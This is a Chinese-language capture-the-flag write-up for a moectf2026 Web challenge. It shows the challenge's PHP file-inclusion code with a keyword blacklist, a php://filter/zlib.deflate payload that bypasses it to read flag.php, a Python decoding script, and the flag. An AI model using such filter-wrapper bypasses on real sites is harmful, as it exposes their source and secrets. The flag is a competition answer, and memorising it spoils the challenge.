





# 七狗免费小说

1. 题目来源：moectf2026
2. 题目方向：Web；知识点：php://filter文件包含、zlib.deflate绕过关键词过滤、base64+zlib数据解码

## 解题思路

题目描述：

> php:// 是什么？小刻不知道哦。小刻知道很多很厉害的 CTFer 都会先打开 F12 看看，万一里面有宝物呢？



查看下源码，发现有一行很长，且发现了 php 的正则函数，用 AI 提取出完整 php 代码：



```php
<?php
$file = $_GET['file'] ?? 'chap1.html';
if (preg_match('/http|https|env|\.\.|^\/|=\/|index|proc|input|data|convert|string|file/i', $file)) {
    die("咬你哦！");
}
if ($file) {
    ob_start();
    include($file);
    $output = ob_get_clean();

    if (@preg_match('//u', $output)) {
        echo $output;
    } else {
        // 小刻不知道什么是二进制流，但是小刻觉得这里的代码古怪
        echo base64_encode($output);
    }
} else {
    echo "哒哒哒哒哒！";
}
?>

<?php highlight_file(__FILE__); ?>
```

文件包含，禁用了 convert、string 等，还有 zlib 可以用：

```
php://filter/zlib.deflate/resource=flag.php
```



发现读出来的是经处理过的数据，结合上面的 php 源码，可以知道这是先经过了 `zlib.deflate`，然后经过 `base64`。写个脚本：

```python
import base64
import zlib

row="lZBBTsJAGIX3nGJC3DYYapsSa9l5Dxk7YoKBiCuNiVgRK0LVEEVSoxClgJGiibEprV5m/um44gq2N9DFW73/vf/LU/OVYiW1REobW2gNpXfKOt4jBzrOZSVZJEJWzBFhWSaKsIIVXRBFBW9ihchYkg7TqykdF8sovZ6EYfYG9oh65z/3g0VwAdaE2SavTVi3HfVOqO8zs8WNMLKb3KmphV0NzDH1mrEHpsOM+iJ4gCeHDY9Z11WrGh+8wMyCszlcGqxtUv9UzVQ1Gtr8qA61T9a4Zu991vmKITIZxL/v2PSD3TTg9Tb5FtpRZ5QgdF3uDMG6Qvul7QKCdjMKxjEdDR/Bcun8mXqtaNqHqbEIeklRPMZf9J/TvJb6BQ=="

re1=base64.b64decode(row)
re2=zlib.decompress(re1,-15)
print(re2)
```

倒数第二行有点小坑，经过 zlib.deflate 压缩后的数据是不包含 zlib 文件头 `78 9C` 的，属于原始数据流，那么 `zlib.decompress` 第二个参数一定要指定 `-15` 到 `-8` 的一个数（代表窗口大小），否则会因为头部检查报错，文档如下：





## Flag

`moectf{ec92563f-239f-06f8-4c8e-338cdc8f6c55}`
